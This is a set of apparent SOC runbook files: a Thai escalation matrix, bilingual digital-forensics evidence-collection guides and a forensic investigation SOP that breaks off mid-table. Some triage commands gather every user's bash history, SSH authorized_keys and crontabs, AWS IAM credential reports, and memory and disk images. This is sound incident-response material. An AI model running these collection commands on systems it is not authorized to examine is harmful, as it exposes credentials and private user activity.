> **เอกสารนี้คือเอกสารอ้างอิงแบบหน้าเดียว** พิมพ์ เคลือบ และติดไว้ที่โต๊ะทำงานของ analyst ทุกคน เมื่อเกิดเหตุการณ์ เอกสารนี้บอกว่า **ต้องแจ้งใคร เมื่อไร และอย่างไร**

---

## ผังการส่งต่อ

```mermaid
graph TD
    ALERT[🔔 พบ Alert] --> T1[Tier 1 Analyst]
    T1 -->|"P4/P3: จัดการเอง"| RESOLVE[แก้ไข & ปิด]
    T1 -->|"P2: ส่งต่อ 30 นาที"| T2[Tier 2 Analyst]
    T1 -->|"P1: ส่งต่อทันที"| T2
    T2 -->|"P2: จัดการ"| RESOLVE
    T2 -->|"P1: ส่งต่อ 15 นาที"| LEAD[SOC Lead / IR Manager]
    LEAD -->|"P1: แจ้ง 30 นาที"| MGMT[ผู้บริหาร / CISO]
    LEAD -->|"เหตุการณ์ร้ายแรง"| EXEC[ผู้บริหารสูงสุด + ฝ่ายกฎหมาย]
    MGMT -->|"ข้อมูลรั่ว / กฎหมาย"| EXT[หน่วยงานกำกับ / ตำรวจ]

    style ALERT fill:#3b82f6,color:#fff
    style T1 fill:#22c55e,color:#fff
    style T2 fill:#f59e0b,color:#fff
    style LEAD fill:#ef4444,color:#fff
    style MGMT fill:#7c3aed,color:#fff
    style EXEC fill:#dc2626,color:#fff
    style EXT fill:#991b1b,color:#fff
```

---

## นิยามระดับความรุนแรง (อ้างอิงด่วน)

| ระดับ | ชื่อ | ตัวอย่าง | SLA (ตอบสนอง) | SLA (แก้ไข) |
|:---:|:---|:---|:---:|:---:|
| **P1** 🔴 | **วิกฤต** | Ransomware, ข้อมูลรั่วไหล, ระบบถูกบุกรุกทั้งหมด | **15 นาที** | **4 ชั่วโมง** |
| **P2** 🟠 | **สูง** | บัญชีถูกบุกรุก, lateral movement, malware ยืนยัน | **30 นาที** | **8 ชั่วโมง** |
| **P3** 🟡 | **ปานกลาง** | Phishing (ไม่มีคนคลิก), ละเมิดนโยบาย, น่าสงสัยแต่ควบคุมได้ | **2 ชั่วโมง** | **24 ชั่วโมง** |
| **P4** 🔵 | **ต่ำ** | False positive, ข้อมูลแจ้งเตือน, ผล scan, ความเสี่ยงที่ยอมรับได้ | **8 ชั่วโมง** | **72 ชั่วโมง** |

---

## ตาราง Escalation — ใครต้องติดต่อ

### 🔴 P1 เหตุการณ์ระดับวิกฤต

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | ภายใน | ช่องทาง |
|:---:|:---|:---|:---:|:---|
| 1 | ตรวจจับ & Triage | **Tier 1 Analyst** | 0 นาที | — |
| 2 | ส่งต่อ Tier 2 | **Tier 2 Analyst (on-call)** | **5 นาที** | โทรศัพท์ + Ticket |
| 3 | แจ้ง SOC Lead | **SOC Lead** | **15 นาที** | โทรศัพท์ + Slack #incident |
| 4 | เปิดใช้ IR team | **IR Manager** | **15 นาที** | โทรศัพท์ + War Room |
| 5 | แจ้ง CISO | **CISO** | **30 นาที** | โทรศัพท์ |
| 6 | แจ้งผู้บริหาร (ถ้าข้อมูลรั่ว) | **CEO / CTO** | **1 ชั่วโมง** | โทรศัพท์ |
| 7 | แจ้งฝ่ายกฎหมาย (ถ้า PDPA) | **ที่ปรึกษากฎหมาย** | **2 ชั่วโมง** | โทรศัพท์ + Email |
| 8 | แจ้งหน่วยงานกำกับ (ถ้าจำเป็น) | **DPO / Compliance** | **72 ชั่วโมง** | ช่องทางทางการ |

### 🟠 P2 เหตุการณ์ระดับสูง

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | ภายใน | ช่องทาง |
|:---:|:---|:---|:---:|:---|
| 1 | ตรวจจับ & Triage | **Tier 1 Analyst** | 0 นาที | — |
| 2 | ส่งต่อ Tier 2 | **Tier 2 Analyst** | **30 นาที** | Ticket + Slack |
| 3 | แจ้ง SOC Lead | **SOC Lead** | **1 ชั่วโมง** | Slack + Email |
| 4 | อัปเดตผู้บริหาร (ถ้ามีแนวโน้ม) | **SOC Manager** | **4 ชั่วโมง** | Email |

### 🟡 P3 เหตุการณ์ระดับปานกลาง

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | ภายใน | ช่องทาง |
|:---:|:---|:---|:---:|:---|
| 1 | ตรวจจับ & Triage | **Tier 1 Analyst** | 0 นาที | — |
| 2 | จัดการเอง หรือส่งต่อ Tier 2 | **Tier 1/Tier 2** | **2 ชั่วโมง** | Ticket |
| 3 | อัปเดต SOC Lead (ถ้าเกิดซ้ำ) | **SOC Lead** | **สิ้นเวร** | รายงานเวร |

### 🔵 P4 เหตุการณ์ระดับต่ำ

| ขั้น | การดำเนินการ | ผู้รับผิดชอบ | ภายใน | ช่องทาง |
|:---:|:---|:---|:---:|:---|
| 1 | ตรวจจับ & Triage | **Tier 1 Analyst** | — | — |
| 2 | ปิด หรือปรับ detection | **Tier 1 Analyst** | **8 ชั่วโมง** | Ticket |

---

## สมุดรายชื่อ (Contact Directory)

> ⚠️ **แทนที่ด้วยข้อมูลจริงของคุณ** อัปเดตทุกเดือน

| บทบาท | ชื่อ | โทรศัพท์หลัก | สำรอง | Email | ความพร้อม |
|:---|:---|:---|:---|:---|:---:|
| **SOC Lead** | [ชื่อ] | [เบอร์] | Slack: @soc-lead | [email] | 24/7 on-call |
| **IR Manager** | [ชื่อ] | [เบอร์] | Slack: @ir-manager | [email] | 24/7 on-call |
| **CISO** | [ชื่อ] | [เบอร์] | WhatsApp | [email] | เวลาทำงาน + on-call |
| **CTO** | [ชื่อ] | [เบอร์] | — | [email] | เวลาทำงาน |
| **CEO** | [ชื่อ] | [เบอร์] | — | [email] | ผ่าน CISO |
| **ที่ปรึกษากฎหมาย** | [ชื่อ] | [เบอร์] | — | [email] | เวลาทำงาน |
| **DPO (PDPA)** | [ชื่อ] | [เบอร์] | — | [email] | เวลาทำงาน |
| **PR / สื่อสาร** | [ชื่อ] | [เบอร์] | — | [email] | เวลาทำงาน |
| **SOC Tier 2 (on-call)** | หมุนเวียน | ดูตาราง | Slack: @soc-oncall | soc@company.com | 24/7 |
| **External IR vendor** | [บริษัท] | [เบอร์] | — | [email] | ตามสัญญา |
| **ตำรวจไซเบอร์** | กองบังคับการปราบปราม | [เบอร์] | — | — | เวลาราชการ |

---

## กฎการส่งต่อ

### ทำ ✅
- **P1 ต้องโทร** — อย่าพึ่ง email หรือ Slack อย่างเดียว
- **เริ่ม containment ระหว่างส่งต่อ** — อย่ารออนุมัติสำหรับ P1
- **บันทึกทุกอย่าง** ใน ticketing system ทันที
- **ส่งต่อเกินไว้ดีกว่าพลาด** — ส่งต่อแล้วไม่มีอะไรดีกว่าไม่ส่งต่อแล้วพลาด
- **ใช้คำว่า "CRITICAL INCIDENT"** ในหัวข้อ email สำหรับ P1

### ห้าม ❌
- **ห้ามชะลอ** P1 เพื่อ "สืบสวนเพิ่มเติม" — ส่งต่อก่อน, สืบสวนคู่ขนาน
- **ห้ามข้ามลำดับ** — แจ้ง SOC Lead ก่อน CISO เสมอ
- **ห้ามสื่อสารภายนอก** (สื่อ, หน่วยงานกำกับ) โดยไม่ได้รับอนุมัติจากฝ่ายกฎหมาย/PR
- **ห้ามแบ่งปัน IOCs** สู่สาธารณะโดยไม่ได้รับอนุมัติ
- **ห้ามคุยเรื่อง incident** บนอุปกรณ์ส่วนตัวหรือช่องทางที่ไม่ปลอดภัย

---

## กฎ Auto-Escalation (SOAR)

| เงื่อนไข | การดำเนินการอัตโนมัติ | ส่งต่อไปยัง |
|:---|:---|:---|
| P1 ไม่มี analyst ตอบใน 10 นาที | Auto-assign + page on-call | Tier 2 + SOC Lead |
| P2 ไม่มีคนรับใน 30 นาที | Auto-reassign + Slack notify | SOC Lead |
| P3 จาก source เดียวกัน 3+ ครั้งใน 1 ชม. | Auto-correlate + ยกระดับเป็น P2 | Tier 2 |
| P1 ticket เปิด > 2 ชม. ไม่มีอัปเดต | Auto-notify ผู้บริหาร | CISO |
| มี indicator ของ data breach | Auto-notify กฎหมาย + DPO | Legal + Compliance |

---

## การส่งต่อนอกเวลาทำงาน

| เวลา | ผู้ติดต่อหลัก | สำรอง |
|:---|:---|:---|
| **เวลาทำงาน** (09:00–18:00) | ทีม SOC ประจำเวร | SOC Lead |
| **นอกเวลา** (18:00–09:00) | On-call Tier 2 | SOC Lead (โทร) |
| **เสาร์-อาทิตย์ / วันหยุด** | On-call Tier 2 | SOC Lead → IR Manager |

### ตารางหมุนเวียน On-Call

| สัปดาห์ | Tier 2 On-Call | SOC Lead สำรอง |
|:---|:---|:---|
| สัปดาห์ 1 | Analyst A | Lead X |
| สัปดาห์ 2 | Analyst B | Lead Y |
| สัปดาห์ 3 | Analyst C | Lead X |
| สัปดาห์ 4 | Analyst D | Lead Y |

> 📋 อัปเดตตารางหมุนเวียนทุกเดือน โพสต์ใน Slack #soc-oncall

---

## ช่องทางการสื่อสารตามระดับความรุนแรง

| ช่องทาง | P1 🔴 | P2 🟠 | P3 🟡 | P4 🔵 |
|:---|:---:|:---:|:---:|:---:|
| **โทรศัพท์** | ✅ ต้องโทร | ถ้าจำเป็น | ❌ | ❌ |
| **Slack #incident** | ✅ | ✅ | ❌ | ❌ |
| **Slack #soc-alerts** | ✅ | ✅ | ✅ | ✅ |
| **Email** | ✅ (หลังโทร) | ✅ | ✅ | ✅ |
| **War Room** | ✅ เปิดใช้ | ถ้าจำเป็น | ❌ | ❌ |
| **Status Page** | ถ้ากระทบลูกค้า | ❌ | ❌ | ❌ |

---

## กำหนดแจ้งหน่วยงานกำกับ

| กฎหมาย | กำหนดเวลา | แจ้งไปยัง | เงื่อนไข |
|:---|:---:|:---|:---|
| **PDPA (ไทย)** | **72 ชั่วโมง** | สำนักงานคณะกรรมการคุ้มครองข้อมูลส่วนบุคคล | ข้อมูลส่วนบุคคลรั่วไหล |
| **GDPR (EU)** | **72 ชั่วโมง** | Supervisory Authority + เจ้าของข้อมูล | ข้อมูลส่วนบุคคลรั่วไหล |
| **PCI-DSS** | **ทันที** | Acquirer + Card Brands | ข้อมูลบัตรเครดิตรั่ว |
| **SEC (US)** | **4 วันทำการ** | SEC (Form 8-K) | เหตุการณ์ไซเบอร์ที่มีนัยสำคัญ |
| **ธปท. (ไทย)** | **ทันที** | ธนาคารแห่งประเทศไทย | ระบบการเงินหยุดชะงัก |

---

## เอกสารที่เกี่ยวข้อง

-   [Severity Matrix](Severity_Matrix.en.md) — นิยามระดับความรุนแรงฉบับเต็ม
-   [Communication Templates](Communication_Templates.en.md) — แม่แบบการแจ้งเตือนสำเร็จรูป
-   [IR Framework](Framework.en.md) — วงจรชีวิตการตอบสนองต่อเหตุการณ์
-   [PDPA Incident Response](../07_Compliance_Privacy/PDPA_Incident_Response.en.md) — การแจ้ง data breach ตาม PDPA
-   [SOC Communication SOP](../06_Operations_Management/SOC_Communication.en.md)
-   [SLA Template](../06_Operations_Management/SLA_Template.en.md)


---

## File: 05_Incident_Response/Evidence_Collection.en.md

# Evidence Collection Guide — Digital Forensics

> **Document ID:** FOR-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** IR Lead / Forensic Analyst  
> **Classification:** Internal

---

## Golden Rules of Evidence Collection

1. **Don't modify evidence** — Work on copies, never originals
2. **Document everything** — Who, what, when, where, why, how
3. **Maintain chain of custody** — Every handoff is recorded
4. **Prioritize volatile data** — Memory first, then disk
5. **Use write blockers** — For physical disk acquisition

---

## Order of Volatility (Collect in This Order)

| Priority | Source | Volatility | Tool |
|:---:|:---|:---|:---|
| 1 | **CPU Registers/Cache** | Seconds | N/A (rarely feasible) |
| 2 | **RAM (Memory)** | Minutes | WinPMEM, LiME, Magnet RAM |
| 3 | **Network Connections** | Minutes | netstat, ss, tcpdump |
| 4 | **Running Processes** | Minutes | Velociraptor, GRR, tasklist |
| 5 | **Disk (Live)** | Hours | FTK Imager, dc3dd |
| 6 | **Logs (Remote)** | Days | SIEM export, syslog |
| 7 | **Disk (Offline)** | Permanent | dd, FTK Imager |
| 8 | **Backups/Archives** | Permanent | Backup system |

---

## Windows Evidence Collection

### Memory Acquisition
```powershell
# WinPMEM (run as Administrator)
winpmem_mini_x64.exe memory_dump.raw

# Verify hash
certutil -hashfile memory_dump.raw SHA256
```

### Live Triage Commands
```powershell
# Running processes with parent
Get-CimInstance Win32_Process | Select ProcessId, Name, ParentProcessId, CommandLine | Export-Csv processes.csv

# Network connections
Get-NetTCPConnection | Where {$_.State -eq "Established"} | Export-Csv netconn.csv

# Logged-on users
query user

# Scheduled tasks
schtasks /query /fo CSV > scheduled_tasks.csv

# Startup items
Get-CimInstance Win32_StartupCommand | Export-Csv startup.csv

# Recent file activity (last 24h)
Get-ChildItem -Recurse -Path C:\ -ErrorAction SilentlyContinue | Where {$_.LastWriteTime -gt (Get-Date).AddHours(-24)} | Export-Csv recent_files.csv

# DNS cache
Get-DnsClientCache | Export-Csv dns_cache.csv

# Event logs - Security (last 24h)
Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime=(Get-Date).AddHours(-24)} | Export-Csv security_events.csv
```

### Disk Imaging
```powershell
# FTK Imager CLI
ftkimager.exe \\.\PhysicalDrive0 output_image --e01 --compress 6 --verify
```

---

## Linux Evidence Collection

### Memory Acquisition
```bash
# LiME kernel module
sudo insmod lime.ko "path=/evidence/memory.lime format=lime"

# Verify
sha256sum /evidence/memory.lime > /evidence/memory.lime.sha256
```

### Live Triage Commands
```bash
# System info
uname -a > system_info.txt
date >> system_info.txt
uptime >> system_info.txt

# Running processes
ps auxf > processes.txt

# Network connections
ss -tulnp > network.txt
netstat -anp >> network.txt

# Open files
lsof > open_files.txt

# Logged-in users
w > users.txt
last -100 >> users.txt

# Cron jobs
for user in $(cut -f1 -d: /etc/passwd); do echo "==$user=="; crontab -u $user -l 2>/dev/null; done > cron_jobs.txt

# Recent file modifications (24h)
find / -mtime -1 -ls 2>/dev/null > recent_files.txt

# SSH authorized keys
find / -name "authorized_keys" -exec cat {} \; > ssh_keys.txt

# Bash history (all users)
find /home -name ".bash_history" -exec echo "=={}" \; -exec cat {} \; > bash_history.txt
```

### Disk Imaging
```bash
# dd with hashing
sudo dc3dd if=/dev/sda of=/evidence/disk.dd hash=sha256 log=/evidence/disk.log
```

---

## Cloud Evidence (AWS)

```bash
# CloudTrail events (last 24h)
aws cloudtrail lookup-events \
  --start-time $(date -u -d '24 hours ago' +%Y-%m-%dT%H:%M:%SZ) \
  --output json > cloudtrail_events.json

# IAM credential report
aws iam generate-credential-report
aws iam get-credential-report --output text --query Content | base64 -d > iam_report.csv

# S3 access logs
aws s3 sync s3://your-access-log-bucket/ /evidence/s3_logs/

# EC2 instance metadata
aws ec2 describe-instances --output json > ec2_instances.json

# Security group changes
aws ec2 describe-security-groups --output json > security_groups.json

# VPC Flow Logs
aws logs get-log-events --log-group-name vpc-flow-logs --output json > vpc_flows.json
```

---

## Network Evidence

```bash
# Packet capture (tcpdump)
sudo tcpdump -i eth0 -w /evidence/capture.pcap -c 100000

# Capture specific host
sudo tcpdump -i eth0 host 10.0.1.50 -w /evidence/host_capture.pcap

# DNS queries only
sudo tcpdump -i eth0 port 53 -w /evidence/dns_capture.pcap
```

---

## Chain of Custody Form

```
╔══════════════════════════════════════════════════╗
║           CHAIN OF CUSTODY RECORD                ║
╠══════════════════════════════════════════════════╣
║ Case ID:      _______________                    ║
║ Evidence ID:  _______________                    ║
║ Description:  _______________                    ║
║ Date/Time Collected: _______________             ║
║ Collected By: _______________                    ║
║ SHA256 Hash:  _______________                    ║
║                                                  ║
║ Custody Log:                                     ║
║ Date       | From        | To          | Purpose ║
║ __________ | ___________ | ___________ | _______ ║
║ __________ | ___________ | ___________ | _______ ║
║ __________ | ___________ | ___________ | _______ ║
║                                                  ║
║ Storage Location: _______________                ║
║ Access Restricted To: _______________            ║
╚══════════════════════════════════════════════════╝
```

---

## Evidence Storage Requirements

| Requirement | Standard |
|:---|:---|
| **Encryption** | AES-256 at rest |
| **Access** | Named individuals only, need-to-know basis |
| **Retention** | Minimum 1 year (or as required by regulation) |
| **Integrity** | SHA-256 hash verified at every transfer |
| **Location** | Dedicated forensic storage, not shared drives |
| **Backup** | At least 2 copies on separate media |

---

## Related Documents

- [IR Framework](../05_Incident_Response/Framework.en.md)
- [Tabletop Exercises](../05_Incident_Response/Tabletop_Exercises.en.md)
- [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md)


---

## File: 05_Incident_Response/Evidence_Collection.th.md

# คู่มือเก็บหลักฐาน — Digital Forensics

> **รหัสเอกสาร:** FOR-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** IR Lead / Forensic Analyst

---

## กฎทองของการเก็บหลักฐาน

1. **อย่าแก้ไขหลักฐาน** — ทำงานกับสำเนาเท่านั้น
2. **บันทึกทุกอย่าง** — ใคร ทำอะไร เมื่อไหร่ ที่ไหน ทำไม อย่างไร
3. **รักษา Chain of Custody** — บันทึกทุกการส่งมอบ
4. **เก็บข้อมูลที่หายง่ายก่อน** — Memory ก่อน Disk
5. **ใช้ Write Blocker** — สำหรับ disk imaging

---

## ลำดับการเก็บ (เก็บตามลำดับนี้)

| ลำดับ | แหล่ง | ความเร่งด่วน | เครื่องมือ |
|:---:|:---|:---|:---|
| 1 | **RAM (Memory)** | หายใน นาที | WinPMEM, LiME |
| 2 | **Network Connections** | หายใน นาที | netstat, tcpdump |
| 3 | **Running Processes** | หายใน นาที | Velociraptor, tasklist |
| 4 | **Disk (Live)** | ชั่วโมง | FTK Imager, dc3dd |
| 5 | **Logs** | วัน | SIEM export |
| 6 | **Disk (Offline)** | ถาวร | dd, FTK Imager |

---

## คำสั่ง Windows

### เก็บ Memory
```powershell
winpmem_mini_x64.exe memory_dump.raw
certutil -hashfile memory_dump.raw SHA256
```

### Triage สด
```powershell
# Process ที่ทำงาน
Get-CimInstance Win32_Process | Select ProcessId, Name, CommandLine | Export-Csv processes.csv

# Network connections
Get-NetTCPConnection | Where {$_.State -eq "Established"} | Export-Csv netconn.csv

# Scheduled tasks
schtasks /query /fo CSV > scheduled_tasks.csv

# Event logs (24 ชม.)
Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime=(Get-Date).AddHours(-24)} | Export-Csv events.csv
```

---

## คำสั่ง Linux

```bash
# Memory
sudo insmod lime.ko "path=/evidence/memory.lime format=lime"

# Process + Network
ps auxf > processes.txt
ss -tulnp > network.txt
lsof > open_files.txt

# ไฟล์ที่เปลี่ยนแปลง (24 ชม.)
find / -mtime -1 -ls 2>/dev/null > recent_files.txt

# Bash history
find /home -name ".bash_history" -exec cat {} \; > bash_history.txt

# Disk image
sudo dc3dd if=/dev/sda of=/evidence/disk.dd hash=sha256
```

---

## Cloud (AWS)

```bash
# CloudTrail
aws cloudtrail lookup-events --start-time $(date -u -d '24 hours ago' +%Y-%m-%dT%H:%M:%SZ) > cloudtrail.json

# IAM Report
aws iam generate-credential-report && aws iam get-credential-report --output text --query Content | base64 -d > iam.csv
```

---

## แบบฟอร์ม Chain of Custody

```
╔═══════════════════════════════════════╗
║    บันทึกการครอบครองหลักฐาน           ║
╠═══════════════════════════════════════╣
║ Case ID:      _______________         ║
║ Evidence ID:  _______________         ║
║ รายละเอียด:   _______________         ║
║ วันเวลาเก็บ:  _______________         ║
║ ผู้เก็บ:       _______________         ║
║ SHA256:       _______________         ║
║                                       ║
║ วันที่    | จาก     | ถึง    | วัตถุประสงค์ ║
║ _______ | _______ | ______ | _________ ║
╚═══════════════════════════════════════╝
```

---

## Chain of Custody Form

| ฟิลด์ | ค่า |
|:---|:---|
| **Evidence ID** | EV-YYYY-NNN |
| **Incident ID** | INC-YYYY-NNN |
| **ประเภท** | [Disk image / Memory dump / Log file / Network capture] |
| **ที่มา** | [Hostname / IP / Location] |
| **ผู้เก็บ** | [ชื่อ + ตำแหน่ง] |
| **วันที่/เวลาเก็บ** | [YYYY-MM-DD HH:MM UTC] |
| **Hash (SHA256)** | [hash value] |
| **สถานที่จัดเก็บ** | [Evidence locker / Encrypted share / Cloud vault] |

### ตาราง Transfer Log

| # | วันที่ | จาก | ถึง | วัตถุประสงค์ | ลงชื่อ |
|:---:|:---|:---|:---|:---|:---|
| 1 | [วันที่] | [ผู้เก็บ] | [Evidence Storage] | Initial collection | [ลงชื่อ] |
| 2 | [วันที่] | [Storage] | [Analyst] | Analysis | [ลงชื่อ] |

## คำสั่ง Collection ที่สำคัญ

### Memory Acquisition

```bash
# Linux — ใช้ LiME
sudo insmod lime-$(uname -r).ko "path=/evidence/mem.lime format=lime"

# Windows — ใช้ WinPMem
winpmem_mini_x64.exe evidence\mem.raw

# ตรวจสอบ hash
sha256sum /evidence/mem.lime > /evidence/mem.lime.sha256
```

### Disk Imaging

```bash
# Linux — ใช้ dc3dd (ดีกว่า dd — มี hashing built-in)
dc3dd if=/dev/sda of=/evidence/disk.dd hash=sha256 log=/evidence/disk.log

# Windows — ใช้ FTK Imager (GUI)
# File → Create Disk Image → Physical Drive → E01 format
```

### Network Capture

```bash
# Full packet capture
tcpdump -i eth0 -w /evidence/capture.pcap -c 100000

# เฉพาะ host ที่สงสัย
tcpdump -i eth0 host 10.0.0.50 -w /evidence/suspect.pcap
```

### Log Collection

```bash
# รวม Windows Event Logs
wevtutil epl Security /evidence/security.evtx
wevtutil epl System /evidence/system.evtx

# รวม Linux logs
tar czf /evidence/logs.tar.gz /var/log/auth.log* /var/log/syslog*
sha256sum /evidence/logs.tar.gz > /evidence/logs.tar.gz.sha256
```

## Evidence Handling Do's & Don'ts

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| Hash ทุกชิ้นหลักฐานทันที | แก้ไข original evidence |
| บันทึกทุกขั้นตอนใน Chain of Custody | ใช้ tool ที่เขียนลง disk ต้นทาง |
| ทำงานบน forensic copy เท่านั้น | วิเคราะห์บน live system (ถ้าเลี่ยงได้) |
| เก็บในพื้นที่เข้ารหัส | ส่งผ่านช่องทางไม่ปลอดภัย |
| จำกัดการเข้าถึงเฉพาะทีม IR | ให้คนนอกทีมเข้าถึงโดยไม่มี log |

## Volatility Order (ลำดับความผันผวน)

| ลำดับ | ที่มา | ความผันผวน | เก็บก่อน? |
|:---:|:---|:---|:---:|
| 1 | **CPU registers, cache** | สูงมาก | ✅ (ถ้าได้) |
| 2 | **RAM (memory)** | สูง | ✅ |
| 3 | **Network connections** | สูง | ✅ |
| 4 | **Running processes** | สูง | ✅ |
| 5 | **Disk (temporary files)** | ปานกลาง | ✅ |
| 6 | **Disk (persistent data)** | ต่ำ | ลำดับถัดไป |
| 7 | **External logs (SIEM/Cloud)** | ต่ำ | จากส่วนกลาง |
| 8 | **Backup / Archive** | ต่ำมาก | เก็บทีหลังได้ |

### Evidence Priority Order

| Priority | Type | Tool |
|:---|:---|:---|
| 1 | Memory (volatile) | WinPmem/LiME |
| 2 | Running processes | Volatility |
| 3 | Network connections | netstat/tcpdump |
| 4 | Disk image | FTK Imager |
| 5 | Log files | Copy + hash |

## เอกสารที่เกี่ยวข้อง

- [กรอบ IR](Framework.th.md)
- [สถานการณ์จำลอง](Tabletop_Exercises.th.md)
- [ตารางความรุนแรง](Severity_Matrix.th.md)


---

## File: 05_Incident_Response/Forensic_Investigation.en.md

# Forensic Investigation SOP

**Document ID**: IR-SOP-017
**Version**: 1.0
**Classification**: Confidential
**Last Updated**: 2026-02-15

> Digital forensics preserves **legally admissible evidence** and enables thorough **root cause analysis**. This SOP covers when to engage forensics, how to collect evidence properly, and the end-to-end investigation workflow.

---

## When to Engage Forensics

| Trigger | Forensic Level | Who Initiates |
|:---|:---:|:---|
| P1 incident (confirmed breach) | **Full** | IR Manager |
| P2 incident (suspected compromise) | **Targeted** | SOC Lead |
| Data breach with regulatory implications (PDPA/GDPR) | **Full** + Legal hold | DPO / Legal |
| Insider threat investigation | **Full** + HR involvement | SOC Manager / HR |
| Law enforcement request | **Full** + Chain of custody | Legal |
| Post-incident deep dive (after containment) | **Targeted** | IR Lead |
| Malware requiring reverse engineering | **Targeted** (malware only) | Tier 3 Analyst |

---

## Evidence Types & Priority

| Priority | Evidence Type | Volatility | Collection Method | Tool Examples |
|:---:|:---|:---:|:---|:---|
| 🔴 1 | **Memory (RAM)** | Very High | Live memory dump BEFORE shutdown | WinPmem, LiME, Velociraptor |
| 🔴 2 | **Running Processes** | Very High | Process list + network connections | Velociraptor, GRR, EDR |
| 🔴 3 | **Network Connections** | Very High | Active connections + DNS cache | netstat, Velociraptor |
| 🟠 4 | **Temporary / Swap Files** | High | Pagefile, hibernation file | FTK Imager, dd |
| 🟠 5 | **Event Logs** | Medium | Windows Event, syslog, auth logs | Velociraptor, wevtutil, rsyslog |
| 🟡 6 | **Disk Image** | Low | Full bit-for-bit disk copy | FTK Imager, dd, ewfacquire |
| 🟡 7 | **Registry / Config** | Low | Registry hives, crontab, scheduled tasks | RegRipper, Autopsy |
| 🔵 8 | **Network Logs** | Low | PCAP, NetFlow, firewall logs | Wireshark, tcpdump, SIEM |
| 🔵 9 | **Application Logs** | Low | Web server, database, custom app logs | SIEM, log server |

> ⚠️ **Always collect in order of volatility** — most volatile first.

---

## Investigation Workflow

```mermaid
graph TD
    A[🔔 Incident Declared] --> B[1. Forensic Triage]
    B --> C[2. Evidence Preservation]
    C --> D[3. Collection & Imaging]
    D --> E[4. Analysis]
    E --> F[5. Findings & Timeline]
    F --> G[6. Reporting]
    G --> H[7. Evidence Archiving]

    B --> B1[Determine scope]
    B --> B2[Legal hold decision]
    C --> C1[Isolate system]
    C --> C2[Document state]
    D --> D1[Memory dump]
    D --> D2[Disk imaging]
    D --> D3[Log collection]
    E --> E1[Timeline analysis]
    E --> E2[Artifact analysis]
    E --> E3[Malware analysis]

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
```

---

### Step 1: Forensic Triage (15–30 min)

- [ ] Receive incident details from IR team
- [ ] Review available evidence (alerts, logs, EDR timeline)
- [ ] Determine **scope**: Which systems are involved?
- [ ] Determine **forensic level**: Full or targeted?
- [ ] Contact Legal if potential data breach or regulatory impact
- [ ] Initiate **legal hold** if needed (preserve all relevant data)
- [ ] Document initial assessment in forensic case file

### Step 2: Evidence Preservation (Immediate)

> ⚠️ **Do NOT power off the system** until memory has been captured.

- [ ] **Do NOT** run antivirus scans (may destroy artifacts)
- [ ] **Do NOT** install tools on the suspect system if possible
- [ ] **Do NOT** browse files on the suspect system
- [ ] Photograph the screen and physical setup
- [ ] Document running processes, logged-in users, open files
- [ ] Network-isolate the system (but keep powered on)
- [ ] Note the exact date/time and timezone

### Step 3: Collection & Imaging (1–4 hours)

#### Memory Acquisition

```bash
# Windows (run from USB / network share, NOT from suspect disk)
winpmem_mini_x64.exe output_memory.raw

# Linux
sudo ./LiME/src/lime-$(uname -r).ko "path=/mnt/usb/memory.lime format=lime"

# Via Velociraptor (remote)
velociraptor collect -artifact Windows.Memory.Acquisition
```

#### Disk Imaging

```bash
# Linux forensic workstation (bit-for-bit copy)
sudo dc3dd if=/dev/sda of=/mnt/evidence/disk_image.dd hash=sha256 log=/mnt/evidence/imaging.log

# FTK Imager (Windows GUI) — preferred for E01 format
# File → Create Disk Image → Select Source → E01 format → Verify after
```

#### Log Collection

```bash
# Windows Event Logs (all)
wevtutil epl Security C:\evidence\security.evtx
wevtutil epl System C:\evidence\system.evtx
wevtutil epl "Microsoft-Windows-Sysmon/Operational" C:\evidence\sysmon.evtx
wevtutil epl "Microsoft-Windows-PowerShell/Operational" C:\evidence\powershell.evtx

# Linux logs
tar czf /mnt/usb/linux_logs.tar.gz /var/log/

# Cloud (AWS CloudTrail last 90 days)
aws cloudtrail lookup-events --start-time 2026-01-01 --end-time 2026-02-15 > events.json
```

#### Hash Verification

```bash
# Always hash evidence immediately after collection
sha256sum /mnt/evidence/disk_image.dd > /mnt/evidence/disk_image.dd.sha256
sha256sum /mnt/evidence/memory.raw > /mnt/evidence/memory.raw.sha256
```

### Step 4: Analysis (4–48 hours)

#### 4a. Timeline Analysis

Build a unified timeline from all evidence sources:

| Source | Tool | What to Extract |
|:---|:---|:---|
| Windows Events | EvtxECmd, Hayabusa | Logons, process creation, service install |
| MFT (NTFS) | MFTECmd | File creation/modification/access times |
| Prefetch | PECmd | Program execution history |
| Registry | RegRipper | User activity, USB history, recent files |
| Browser History | Hindsight, BrowsingHistoryView | URLs, downloads, searches |
| Memory | Volatility 3 | Running processes, network, injected code |

```bash
# Example: Volatility 3 process listing
vol -f memory.raw windows.pslist
vol -f memory.raw windows.netscan
vol -f memory.raw windows.malfind
```

#### 4b. Key Artifacts to Examine

| OS | Artifact | Location | What It Reveals |
|:---|:---|:---|:---|
| Windows | Prefetch | `C:\Windows\Prefetch\` | Programs that ran, when, how many times |
| Windows | Amcache | `C:\Windows\appcompat\Programs\Amcache.hve` | Installed/executed programs |
| Windows | ShimCache | `SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache` | Program execution evidence |
| Windows | UserAssist | `NTUSER.DAT\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist` | GUI programs executed |
| Windows | $MFT | Root of NTFS volume | All file metadata, timestamps |
| Windows | Jump Lists | `%AppData%\Microsoft\Windows\Recent\AutomaticDestinations` | Recent files per application |
| Linux | auth.log | `/var/log/auth.log` | Authentication events |
| Linux | .bash_history | `~/.bash_history` | Command history |
| Linux | wtmp/btmp | `/var/log/wtmp`, `/var/log/btmp` | Login success/failure |
| Linux | crontab | `/var/spool/cron/` | Scheduled tasks (persistence) |

#### 4c. Malware Analysis (if applicable)

| Level | Activity | Tool |
|:---|:---|:---|
| **Static** | Hash lookup, strings, PE header, imports | VirusTotal, PEStudio, strings |
